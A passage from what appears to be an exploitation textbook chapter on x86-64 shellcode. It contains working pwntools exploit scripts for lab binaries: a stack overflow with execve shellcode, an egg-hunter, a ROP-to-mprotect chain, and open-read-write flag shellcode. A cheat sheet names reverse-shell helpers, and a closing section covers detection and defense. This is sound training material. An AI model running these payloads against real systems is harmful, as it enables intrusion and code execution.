The transferable lesson: **position independence and constraint-avoidance are universal; only the "how do I call the OS" layer changes.** The stack-string building, NUL-avoidance, and staging techniques from this chapter apply verbatim on Windows — only the "resolve the API" preamble is added. pwntools/`msfvenom` generate Windows payloads too (`windows/x64/exec`, `windows/x64/meterpreter/reverse_tcp`), and reading their PEB-walk stubs is the best way to learn the pattern.

---

## Part 11: Lab A — NUL-Free `execve` Shellcode via a Stack Overflow (NX Off)

Bring it together: a classic `-fno-stack-protector -z execstack -no-pie` binary (NX off, executable stack) with a `gets` overflow. We inject our 27-byte NUL-free `execve` shellcode and jump to it.

### 11.1 Program

```c
// vuln.c — gcc -fno-stack-protector -z execstack -no-pie -o vuln vuln.c
#include <stdio.h>
void vuln(){ char buf[128]; gets(buf); }     // classic overflow, executable stack
int main(){ setvbuf(stdout,0,2,0); vuln(); }
```

`checksec` confirms the friendly environment:

```
$ pwn checksec ./vuln
    Stack:   No canary found
    NX:      NX disabled           <- executable stack: shellcode will run
    PIE:     No PIE (0x400000)
```

### 11.2 Strategy

With NX off we can execute bytes on the stack. Plan: place the shellcode in `buf`, overflow to overwrite the saved return address with the address of `buf` (which, with ASLR off / a stack leak, we know). Because the shellcode is NUL-free, `gets` won't truncate it.



### 11.3 Exploit

```python
#!/usr/bin/env python3
from pwn import *
context.binary = context.arch = 'amd64'
elf = ELF('./vuln')
p = process('./vuln')

# 27-byte NUL-free execve("/bin/sh") — from Part 5 (or shellcraft.sh())
shellcode = asm(shellcraft.sh())          # NUL-free, position-independent
log.info('shellcode len = %d, has NUL: %s', len(shellcode), b'\x00' in shellcode)

# find offset to saved RIP with a cyclic pattern (Chapter 2 technique)
offset = 136                               # 128 buf + 8 saved rbp
buf_addr = 0x7fffffffe2b0                  # &buf, from gdb (ASLR off for the lab)

payload  = shellcode
payload += b'A' * (offset - len(shellcode))   # pad up to saved RIP
payload += p64(buf_addr)                       # return into our shellcode
p.sendline(payload)
p.interactive()                                # -> shell
```

Annotated run:

```
[*] shellcode len = 27, has NUL: False
[+] Starting local process './vuln'
[*] Switching to interactive mode
$ id
uid=1000(kali) gid=1000(kali)
$ cat flag.txt
flag{nul_free_execve_on_the_stack}
```

**Why it works and what breaks it:** NX-off lets the stack execute; NUL-free shellcode survives `gets`; the known `buf_addr` (from a stack leak or ASLR-off) is where we return. Under **NX**, `buf` isn't executable and this crashes — you'd instead ROP to `mprotect(buf_page, 0x1000, 7)` then return to `buf` (combining Chapter 3's ROP with this chapter's shellcode). Under **ASLR** without a stack leak, `buf_addr` is unknown — you'd need a leak, or an egg-hunter (Lab B), or a `jmp rsp`/`jmp rax` gadget if a register points at your shellcode at return time.

---

## Part 12: Lab B — Two-Stage Egg-Hunter for a Cramped Buffer

Now the constrained scenario: the *entry* buffer is tiny (say 40 bytes, room only for a small hunter + return), but we can plant a *large* payload elsewhere in memory prefixed with an 8-byte egg. The egg-hunter searches memory for the egg and jumps to the real shellcode after it.

### 12.1 The egg and the hunter

We tag our real payload with a repeated egg so the hunter doesn't accidentally match its own copy of the tag:

```python
EGG = b'W00TW00T'                # 8-byte marker, repeated so hunter matches payload not itself
real_payload = EGG + EGG + asm(shellcraft.sh())   # planted in a large input buffer elsewhere
```

The hunter scans memory in page-sized steps, using a syscall to validate each page before reading it (so probing unmapped memory returns an error instead of crashing). A compact x86-64 hunter using `access(2)` as the page-validity probe:

```asm
; egg-hunter (concept): scan for EGG EGG, jump past it
    xor  rdx, rdx                 ; rdx = page cursor (start low, or from a hint)
page_loop:
    or   dx, 0xfff                ; align to page boundary - 1
    inc  rdx                      ; rdx = next page start
addr_loop:
    inc  rdx                      ; advance one byte
    ; validate the page with access(rdx & ~0xfff, 0) — returns -EFAULT if unmapped
    lea  rdi, [rdx]
    push 21                       ; access syscall (or use 'sigaction'/'access' variant)
    pop  rax
    syscall
    cmp  al, 0xf2                 ; EFAULT low byte -> unmapped, skip page
    jz   page_loop
    mov  rax, 0x5430305457303054  ; "W00TW00T" as a qword to compare
    cmp  [rdx], rax               ; first egg word?
    jnz  addr_loop
    cmp  [rdx+8], rax             ; second egg word (confirm it's our payload)
    jnz  addr_loop
    lea  rax, [rdx+16]            ; skip the two eggs
    jmp  rax                      ; jump into the real shellcode
```

### 12.2 Delivery

```python
#!/usr/bin/env python3
from pwn import *
context.arch = 'amd64'
p = process('./vuln_cramped')

hunter = asm(open('egghunter.asm').read())    # ~40 bytes, fits the tiny buffer
assert b'\x00' not in hunter                    # must be NUL-free too

# 1) plant the large egged payload somewhere it will persist in memory
p.sendline(b'PLANT' + EGG + EGG + asm(shellcraft.sh()) + b'\x00'*200)

# 2) trigger the small overflow: hunter + return into hunter
offset = 40
buf_addr = 0x7fffffffe300
payload = hunter + b'A'*(offset - len(hunter)) + p64(buf_addr)
p.sendline(payload)
p.interactive()                                 # hunter finds the egg -> shell
```



**Why egg-hunters matter:** they decouple the *size of your foothold* from the *size of your payload*. A 40-byte overflow can trigger a 400-byte reverse shell planted anywhere. The trade-offs: the hunter adds latency (scanning), can be unreliable if memory is huge or the egg collides, and the page-validity syscall probe is essential (scanning raw memory without it segfaults on the first unmapped page). Real egg-hunters (Skape's classic paper) refine the probe and size; the concept above is the teaching version.

---

## Part 12b: Under NX — Combining ROP with Shellcode (`mprotect`)

Lab A needed NX *off*. In the real world NX is on, so the standard way to still run custom shellcode is to **use a ROP chain (Chapter 3) to call `mprotect` and make a region executable, then return into the shellcode you placed there.** This is the bridge between the two disciplines and worth a full worked example.

The plan:

```mermaid
flowchart LR
    A[Stack overflow, NX on] --> B[ROP: mprotect(page, len, RWX)]
    B --> C[ROP: return into shellcode on that page]
    C --> D[custom shellcode runs]
```

`mprotect(addr, len, prot)` needs `rdi=addr` (page-aligned), `rsi=len`, `rdx=prot=7` (RWX), `rax=10`. We build a ROP chain to set those and `syscall`, then land in our shellcode. With pwntools' ROP engine this is compact:

```python
#!/usr/bin/env python3
from pwn import *
context.binary = elf = ELF('./vuln_nx')      # NX ON this time
context.arch = 'amd64'
p = process('./vuln_nx')

# assume we leaked a stack address and know where our shellcode buffer sits, page-aligned:
buf_page = 0x7ffffffff000 & ~0xfff           # page containing our shellcode (from a leak)
shellcode = asm(shellcraft.sh())

rop = ROP(elf)
# set up mprotect(buf_page, 0x1000, 7) via gadgets, then jump to buf_page+off
rop.raw(rop.find_gadget(['pop rdi', 'ret']).address); rop.raw(buf_page)
rop.raw(rop.find_gadget(['pop rsi', 'ret']).address); rop.raw(0x1000)
rop.raw(rop.find_gadget(['pop rdx', 'ret']).address); rop.raw(0x7)      # PROT_READ|WRITE|EXEC
rop.raw(rop.find_gadget(['pop rax', 'ret']).address); rop.raw(10)       # mprotect
rop.raw(rop.find_gadget(['syscall', 'ret']).address)
rop.raw(shellcode_addr)                        # return into shellcode (now executable)

payload = shellcode.ljust(offset, b'\x90') + rop.chain()   # shellcode first, then chain
p.sendline(payload)
p.interactive()
```

The subtlety: `mprotect`'s `addr` must be **page-aligned** (mask off the low 12 bits) and `len` must cover your shellcode. After the `syscall`, the chain's final return address is the (now-executable) location of your shellcode. This exact pattern — `pop rdi/rsi/rdx; pop rax=10; syscall` — is one of the most common "ROP to shellcode" endgames, and it's why NX only *raised* the bar rather than eliminating custom shellcode. On systems with `SELinux`/`W^X`/`execmem` restrictions, even `mprotect(RWX)` may be denied, pushing you fully to ROP/ret2libc (Chapters 3–6).

---

## Part 12c: When `execve` Is Blocked — open/read/write a Flag

Many modern shellcode challenges run your bytes under a **seccomp** policy that forbids `execve`/`execveat` (so no shell) but permits file I/O. The answer is an **open-read-write (ORW) shellcode**: open the flag file, read it into a buffer, write it to stdout. Every CTF pwn player must have this memorised.

```asm
; orw.asm — open("flag.txt",0); read(fd, rsp, 0x100); write(1, rsp, 0x100)
    ; build "flag.txt\0" on the stack
    mov  rax, 0x7478742e67616c66   ; "flag.txt" little-endian (8 bytes)
    push rax
    ; open(rsp, O_RDONLY=0, 0)
    mov  rdi, rsp
    xor  rsi, rsi                   ; flags = 0 (O_RDONLY)
    xor  rdx, rdx                   ; mode = 0
    push 2 ; pop rax                ; open
    syscall                         ; rax = fd
    ; read(fd, rsp-0x100, 0x100)
    mov  rdi, rax                   ; fd
    mov  rsi, rsp
    sub  rsi, 0x100                 ; buffer below stack
    mov  dx, 0x100                  ; count
    xor  rax, rax                   ; read = 0
    syscall
    ; write(1, buf, len)
    mov  rdx, rax                   ; bytes read -> count
    mov  rdi, 1                     ; stdout
    push 1 ; pop rax                ; write
    syscall
    ; exit(0)
    push 60 ; pop rax
    xor  rdi, rdi
    syscall
```

pwntools generates this in one line — `asm(shellcraft.cat('flag.txt'))` or `shellcraft.open + read + write` — but write it by hand once so the ORW pattern is yours:

```python
from pwn import *
context.arch = 'amd64'
sc = asm(shellcraft.open('flag.txt') + shellcraft.read('rax','rsp',0x100) + shellcraft.write(1,'rsp',0x100))
```

The strategic point: **seccomp shapes your payload, not your ability to run code.** A policy that blocks `execve` still leaks the flag via `open`/`read`/`write`; only a policy that also restricts `open`/`read` (or uses a strict allowlist) truly contains a code-execution primitive. This is exactly why the defensive advice (Part 13) is "minimal syscall allowlist", not just "block execve".

---

## Part 12d: Instruction Encoding — Why Byte-Level Choices Matter

Shellcoding forces you to think at the *byte* level, not the instruction level, because the delivery channel sees bytes. A few encoding facts that repeatedly matter:

- **Register width changes the bytes.** `xor eax, eax` (`31 c0`, 2 bytes) zeroes the *full* `rax` on x86-64 (writes to a 32-bit sub-register clear the upper 32 bits) — shorter and NUL-free versus `xor rax, rax` (`48 31 c0`, 3 bytes with a REX prefix). Prefer 32-bit ops when you don't need the REX.
- **Immediates zero-pad.** `mov eax, 1` is `b8 01 00 00 00` — three NUL bytes! Use `push 1; pop rax` (`6a 01 58`) or `xor eax,eax; inc eax`. This is the number-one source of accidental NULs.
- **Short vs near jumps.** `jmp short` is a 2-byte relative jump (`eb xx`); `jmp near` is 5 bytes with a 32-bit displacement that often contains NULs for small offsets. Keep loops short.
- **`syscall` is `0f 05`** — always clean. The `int 0x80` of 32-bit is `cd 80` — also clean, but uses the *32-bit* syscall numbers and ABI (different from Part 2), a common cross-arch trap.

| Goal | NUL-y encoding | Clean encoding | Bytes saved |
|---|---|---|---|
| zero rax | `mov rax,0` (7B, NULs) | `xor eax,eax` (2B) | 5 + no NUL |
| rax = 1 | `mov eax,1` (5B, 3 NUL) | `push 1;pop rax` (3B) | 2 + no NUL |
| rax = 59 | `mov rax,59` (7B, NULs) | `push 59;pop rax` (3B) | 4 + no NUL |
| jump +5 | `jmp near` (5B, NULs) | `jmp short` (2B) | 3 + no NUL |

Reading your own shellcode's `objdump` and hunting `00` columns is a routine part of the craft — the disassembler is where you catch a bad byte before the target does.

---

## Part 13: Detection & Defense Angle

Shellcode injection is what the entire mitigation stack (Chapters 2–4) exists to prevent, so the defensive story is mostly "make injected code impossible to run, and detect the attempts".

**Prevent execution of injected bytes:**

- **NX/DEP (`-Wl,-z,noexecstack`, W^X):** the foundational defence — no writable page is executable, so injected shellcode on the stack/heap simply cannot run. This is why modern exploitation moved to ROP. Ship with NX on always; audit for `-z execstack` and remove it.
- **CET / shadow stacks (`-fcf-protection`):** even if an attacker redirects control, IBT restricts indirect jumps to valid targets, and shadow stacks protect return addresses — shrinking the "jump into shellcode" and ROP surface.
- **`seccomp-bpf` syscall filtering:** the highest-leverage shellcode-specific defence. A parser/daemon that filters syscalls to a minimal allowlist turns `execve`/`socket`/`connect` shellcode into an instant `SIGSYS` kill. **Blue-team usage:** wrap network-facing parsers in a seccomp policy denying `execve`, `ptrace`, `socket` — most shellcode's very first useful syscall is then fatal. This defeats reverse shells and `/bin/sh` payloads regardless of how cleanly the shellcode was written.
- **MTE / pointer authentication (ARM):** breaks the memory-corruption step that delivers shellcode in the first place.

**Detect injection and execution attempts:**

- **W^X violation / exec-from-writable-page** events (e.g. via eBPF `mmap`/`mprotect` hooks) — a program making a page `RWX` or executing from an anonymous writable mapping is a strong exploitation signal. **IR use case:** an `mprotect(..., PROT_EXEC)` on a heap/stack page from a process that never JITs is almost always an exploit's "make my shellcode runnable" step.
- **`execsnoop`/EDR process lineage:** a network daemon or document parser spawning `/bin/sh`, `sh -i`, or `nc` is the classic reverse/bind-shell fingerprint — alert on it.
- **NIDS shellcode signatures:** NOP sleds (`0x90` runs), common egg tags, `shikata_ga_nai` decoder stubs, and `/bin/sh` byte strings in network payloads are detectable (Snort/Suricata `shellcode` rulesets, `emerging-shellcode`). **Red-team note:** this is exactly why encoder overuse is counterproductive — a `shikata` stub is *more* signatured than clean custom shellcode.
- **`SIGSYS`/`SIGSEGV` spikes:** seccomp kills and crashy shellcode attempts show up as abort/signal bursts — wire them to alerting like the canary/heap aborts in earlier chapters.

The layered takeaway: NX makes injected shellcode unrunnable, seccomp makes its syscalls fatal, and telemetry on `mprotect(RWX)`/unexpected `execve` catches the attempts that get through. A well-configured target reduces "inject shellcode" to "generate a logged crash".

---

## Part 14: Common Pitfalls

- **A NUL byte you didn't notice.** `mov rax, 59` and `mov reg, 0` inject zeros; use `push/pop` and `xor`. Always check `len(shellcode)` vs `strlen` and grep for `00`.
- **Assuming the stack is executable.** With NX on, jumping to stack shellcode crashes; you need `mprotect` via ROP or a different memory region. Check `checksec` first.
- **Hardcoding an address.** ASLR moves everything; build strings on the stack and derive addresses from `rsp`/RIP. Absolute addresses only work with a leak or ASLR off.
- **Wrong syscall ABI register.** The 4th syscall arg is `r10`, not `rcx` (`syscall` clobbers `rcx`). Mixing up the function-call ABI (Chapter 5) and syscall ABI is a classic silent failure.
- **Forgetting envp/argv must be valid.** `execve(path, argv, envp)` — `argv`/`envp` of `NULL` is fine, but a garbage non-NULL pointer faults. Zero them explicitly.
- **Egg collides with the hunter's own copy.** Use a *repeated* egg (`EGG EGG`) and match both words so the hunter doesn't jump into its own tag.
- **No page-validity probe in the hunter.** Scanning raw memory segfaults on the first unmapped page; the `access`/`sigaction` syscall probe is mandatory.
- **Testing without `-z execstack`.** Your C harness needs an executable page (`mmap` RWX or `-z execstack`) or it segfaults on a working shellcode, misleading you into "fixing" correct bytes.
- **Newline in a line-delivered payload.** If delivery splits on `\n` (`0x0a`), that byte is also bad — treat it like NUL and encode around it.
- **Stack not 16-aligned before a libc-style call.** Pure syscalls don't care, but if your shellcode *calls* a libc function (rare, but in some staged payloads) it may hit a `movaps` alignment fault — align `rsp` first.
- **Self-modifying decoder on a non-writable page.** An XOR decoder writes back into its own bytes; if it runs from a read-only page (e.g. after a partial `mprotect`), the write faults. Ensure the region is writable *and* executable.
- **Assuming 32-bit `int 0x80` numbers on 64-bit.** The syscall numbers differ between the 32-bit (`int 0x80`) and 64-bit (`syscall`) tables — `execve` is 11 on 32-bit but 59 on 64-bit. Use the right table for your arch.

---

## Part 15: Final Revision / Summary

- **Shellcode** is injected, position-independent, self-contained machine code. Use it when NX is off, after `mprotect`-ing a page RWX, or in shellcode-only/embedded contexts.
- **Syscall ABI (x86-64):** `rax`=number, args in `rdi, rsi, rdx, r10, r8, r9`, invoke with `syscall`. `execve`=59, `read`=0, `write`=1, `open`=2, `dup2`=33, `socket`=41, `connect`=42, `mprotect`=10.
- **`execve("/bin/sh")`:** build the string on the stack (NUL-terminate via `push` of a zeroed reg), `rdi`→string, `rsi`=`rdx`=0, `rax`=59, `syscall`. 27 bytes NUL-free.
- **NUL-free coding:** `xor reg,reg` not `mov reg,0`; set small constants via `al`/`push imm8; pop`. Verify with `strlen` vs real length.
- **Position independence:** construct data on the stack, address via `rsp`; use `call/pop` or RIP-relative `lea` for code-relative addresses. Never hardcode.
- **Bad chars:** discover by sending `0x01..0xff` and diffing memory; avoid by re-encoding instructions or by **encoders** (XOR, alphanumeric, printable) with a clean decoder stub.
- **Cramped space:** minimise, **stage** (stage-1 `read`s stage-2), or **egg-hunt** (scan memory for a marker, validating pages with a syscall probe).
- **Networked:** socket-reuse `dup2`(known fd) is best; else reverse/bind shell via `socket`/`connect`/`dup2`/`execve`.
- **Defense:** NX makes it unrunnable, `seccomp` makes its syscalls fatal, W^X/`mprotect(RWX)` telemetry and `execve` monitoring catch attempts.

The bigger arc across Chapters 3–7: modern exploitation is a *layered* craft. NX pushed us from shellcode to ROP (Chapter 3); ASLR/canaries pushed us to leaks (Chapter 4); format strings and heap bugs *provide* those leaks and writes (Chapters 5–6); and shellcode (this chapter) is what you run once a ROP `mprotect` reopens the door — or immediately, when the target never closed it. Knowing all five lets you pick the shortest path for any given `checksec` output.

Memory hook: **"Zero with xor, load with push/pop, build the string on the stack, and let `syscall` 59 do the rest."**

---

## Part 16: Cheat Sheet / Quick Reference

```text
SYSCALL ABI (x86-64)
  rax=num  args: rdi rsi rdx r10 r8 r9   invoke: syscall   (r10 NOT rcx)
  execve=59 read=0 write=1 open=2 dup2=33 socket=41 connect=42 mprotect=10 exit=60

EXECVE /bin/sh (NUL-free, 27B)
  xor rsi,rsi ; push rsi ; mov rdi,0x68732f6e69622f ; push rdi
  push rsp ; pop rdi ; xor rdx,rdx ; push 59 ; pop rax ; syscall

NUL-FREE IDIOMS
  zero:  xor reg,reg          (not mov reg,0)
  small: mov al,N / push N; pop rax   (not mov rax,N)
  addr:  push rsp; pop rdi    (not absolute address)

ASSEMBLE / EXTRACT
  nasm -f elf64 sc.asm -o sc.o ; ld sc.o -o sc
  objcopy -O binary -j .text sc sc.bin ; xxd -i sc.bin
  pwntools: asm(shellcraft.sh()) ; run_shellcode(sc) ; disasm(sc)

BAD CHARS
  send 0x01..0xff -> dump buffer in gdb -> note altered/missing bytes
  encode: msfvenom -b '\x00\x0a\x0d' -e x64/xor ; pwn encode(sc, avoid=b'\x00\x0a')

CRAMPED
  stage1: read(0,rsp,0x1000); jmp rsp
  egg-hunter: scan pages (access() probe) for EGG EGG -> jmp past

NETWORK
  socket-reuse: dup2(sockfd,0/1/2); execve('/bin/sh')   <- prefer this
  shellcraft.dupsh(fd) / shellcraft.connect(ip,port)+dupsh()+sh()

TEST HARNESS
  mmap RWX -> memcpy(sc) -> ((void(*)())page)()   (or gcc -z execstack)

ORW (seccomp blocks execve)
  open("flag",0) -> read(fd,buf,n) -> write(1,buf,n) -> exit(0)
  asm(shellcraft.cat('flag.txt'))

DEBUG
  gdb runsc ; si into sc ; x/12i $rip ; info reg rdi rsi rdx rax ; catch syscall execve
  bad-byte check: len(sc) vs strlen ; objdump -d | grep ' 00'
```

---

## Part 17: Practice Labs & Resources

- **Exploit Education — Phoenix (`stack-five`, `net-*`) and Nebula:** hands-on NX-off stack overflows where you inject and run your own `execve` shellcode — the ideal first target for Lab A.
- **pwn.college — "Shellcode Injection" module:** graded levels that require NUL-free, then bad-char-constrained, then size-constrained, then position-independent shellcode, with an integrated runner — the best structured drilling for every constraint in this chapter.
- **pwnable.kr / pwnable.tw (`asm`, `shellcode`):** challenges whose harness `mmap`s your input RWX and calls it, sometimes under a strict `seccomp` (forcing `open`/`read`/`write` a flag instead of `execve`) — great for the syscall-ABI muscle.
- **Skape's "Safely Searching Process Virtual Address Space" (egg-hunter paper):** the canonical reference for Lab B; read it to see the real page-validation techniques and size-optimised hunters.
- **`shell-storm.org/shellcode` and Exploit-DB shellcode archive:** a library of real, categorised shellcode (Linux/Windows/ARM, staged, alphanumeric) to study encodings and idioms — read, don't just copy.
- **pwntools `shellcraft` source:** read the templates (`sh`, `dupsh`, `connect`, `cat`) to internalise NUL-free, position-independent idioms from working code.
- **ROP Emporium `ret2csu` / `pivot` + `mprotect`:** practise the Part 12b bridge — a ROP chain that makes a page RWX and jumps into your shellcode under NX.
- **`nasm`/`objdump`/`pwntools asm` loop:** the fastest feedback cycle is `asm('...')` in a pwntools REPL with `context.arch='amd64'` — write an instruction, see its bytes and whether they're clean, instantly.
- **Build-your-own:** hand-write the 27-byte `execve`, verify it's NUL-free, run it in the `runsc.c` harness, then re-solve Lab A with *your* bytes instead of `shellcraft.sh()`. Then add a bad-char (`\x0a`) constraint and re-encode with the XOR stub from Part 9. Finally, write an ORW shellcode and solve a seccomp-`execve`-blocked challenge with it.

Practice question set:

1. Why is `xor rax, rax` used instead of `mov rax, 0` in shellcode, and what byte-level property makes the difference?
2. Write out (in registers) the full setup for `execve("/bin/sh", NULL, NULL)` on x86-64, and explain how you get the address of `"/bin/sh"` without hardcoding it.
3. Your delivery is a `read()` that stops at `\n`. List the bad byte(s) and two ways to make your shellcode survive.
4. You have a 32-byte entry buffer but can plant 300 bytes elsewhere. Describe the egg-hunter approach and why the page-validity syscall probe is essential.
5. A remote target's harness runs your shellcode under a seccomp policy that blocks `execve` but allows `open`/`read`/`write`. What payload do you write instead of a shell, and what are its syscalls?
6. Explain why `mov eax, 1` is dangerous in shellcode while `push 1; pop rax` is safe, at the byte level.
7. NX is enabled. Describe, step by step, how you'd still run custom shellcode using a ROP chain, including which syscall you call and what its arguments must be.
8. What is a NOP sled, when does it help, and why might you avoid a plain `0x90` sled on a monitored network?
9. Contrast Linux and Windows shellcode: why can Linux shellcode issue `syscall` directly while Windows shellcode must walk the PEB and resolve exports?
10. You wrote an XOR-encoded payload with a self-decoding stub, but it faults inside the decode loop. Give two distinct causes (one about the page permissions, one about the key choice) and how you'd confirm each in gdb.

**Memory hooks (mnemonics):**

- **"Bytes travel through strings — one NUL and you're truncated."** — why NUL-free matters.
- **"xor to zero, push/pop for small, stack for the string, `rsp` for the address."** — the four core idioms.
- **"NX makes it dead; `mprotect` brings it back to life."** — the ROP-to-shellcode bridge.
- **"Blocked `execve`? open-read-write the flag."** — the seccomp fallback.
- **"Read your own objdump and hunt the `00`."** — the byte-level discipline.

The next chapter turns from *exploiting* a known bug to *finding* one: **fuzzing** — feeding programs mutated and generated inputs at scale with AFL++ and libFuzzer, instrumenting for coverage, and triaging the crashes into the very stack, format-string, and heap bugs the last five chapters taught you to exploit.
